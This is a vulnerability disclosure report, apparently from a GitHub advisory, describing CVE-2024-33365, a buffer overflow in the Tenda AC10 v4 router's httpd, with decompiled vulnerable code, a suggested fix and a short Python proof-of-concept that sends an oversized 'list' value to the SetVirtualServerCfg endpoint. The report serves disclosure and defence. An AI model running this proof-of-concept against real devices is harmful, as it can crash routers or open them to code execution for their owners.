 # 1. Buffer Overflow in Virtual_Data_Check

## Affected model(s) and firmware/software version(s)

Product: Tenda - AC10 v4

Version: US_AC10V4.0si_V16.03.10.20_cn

Binary: `/bin/httpd`

## Vulnerability description and potential impacts

In `formSetVirtualSer`, it reads value of key `list` upto 0x200 bytes and passed as argument to function `Virtual_Data_Check`:

```c
memset(acStack_514, 0, 0x100);
memset(auStack_414, 0, 0x201);
memset(auStack_210, 0, 0x201);
iVar1 = websSafeGetVar(param_1, 0xcc, "list", & DAT_004fb6b8, auStack_414);
if (iVar1 == 1) {
    printf("Error: Get WEB value failed, idx[%d],var[%s]\n", 0xcc, & DAT_004fb6bc);
    websTransfer_errCode(param_1, 1);
} else {
    memcpy(auStack_210, auStack_414, 0x201);
    iVar1 = Virtual_Data_Check(auStack_210);
    if (iVar1 == 0) {
        save_virtualser_data("adv.virtualser", auStack_414, 0x7e);
```

In `Virtual_Data_Check`, it uses sscanf with format string `%[^,]` and `%s` to parse from param1 to 4 local variables. But the `list` can take upto 0x200, which will cause buffer overflow:

```c
undefined4 Virtual_Data_Check(char * param_1)
{
    ...
    local_198 = param_1;
    if ( * param_1 == '\0') {
        uVar3 = 0;
    } else {
        while (pcVar4 = strchr(local_198, L '~'), pcVar4 != 0x0) {
            ...
        }
        iVar5 = sscanf(local_198, "%[^,],%[^,],%[^,],%s", & local_168, & local_138, & local_128, & local_118);
        ...
    }
    return uVar3;
}
```

## Step-by-step instructions to reproduce the issue

- Step 1: Run httpd
- Step 2: Run the script in the next section with first argument is ip of server

## Proof-of-concept (PoC) or exploit code for the issue

```python
#!/usr/bin/python3

import sys
import requests

payload = b'2,'*3
payload = payload.ljust(0x200, b'A')

def run():
    url = f"http://{sys.argv[1]}/goform/SetVirtualServerCfg"
    data = {
        'list': payload,
    }
    res = requests.post(url=url,data=data)

run()
```

![formSetVirtualSer](images/poc.gif)

## Any suggested solutions to fix this

Reduce max size in `websSafeGetVar` for "list"

## Severity (e.g. CVSS v3.x)

Buffer Overflow, possible command injection

## Acknowledgement

Cao Ngoc Quy, Nguyen Huu Tri and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

## Assigned CVE

CVE-2024-33365
